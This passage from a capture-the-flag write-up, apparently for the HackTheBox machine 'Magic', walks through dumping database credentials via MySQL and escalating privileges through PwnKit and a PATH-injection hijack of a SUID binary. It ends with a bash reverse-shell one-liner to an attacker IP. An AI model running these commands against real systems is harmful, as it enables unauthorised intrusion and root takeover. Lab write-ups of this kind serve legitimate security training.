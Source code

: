 Now port forward is set so connect to mysql on kali and find creds in db
```
mysql -h 240.0.0.1 -u theseus -p
   #iamkingtheseus

show databases;
use Magic;
show tables;
select * from login;
```
## Privilege Escalation

Starting with linpeas
If we don't find something better, localport 631 is interesting

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250914151657.png)

PwnKit can root machine

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250914151710.png)

Maybe not ssh but imagemagick-6 is interesting

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250914151820.png)

/bin/sysinfo unknown suid

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250914152032.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250914152048.png)

## Easy way PwnKit (you can do it even with www-data)

just download and run PWNkit 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250914152226.png)

but this isn't proper way so let's skip it

## Back to sysinfo SUID

it is not default binary so let's enumerate this binaty

```
ltrace sysinfo
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250914154022.png)

and on top we can see that binary calls lshw without absolute path so we can path injection here
Create reverse shell and name it lshw, add pwd to path, add execution to lshw and run

```
echo -e '#!/bin/bash\n/bin/bash -c "bash -i >& /dev/tcp/10.10.14.8/443 0>&1"' > lshw
```
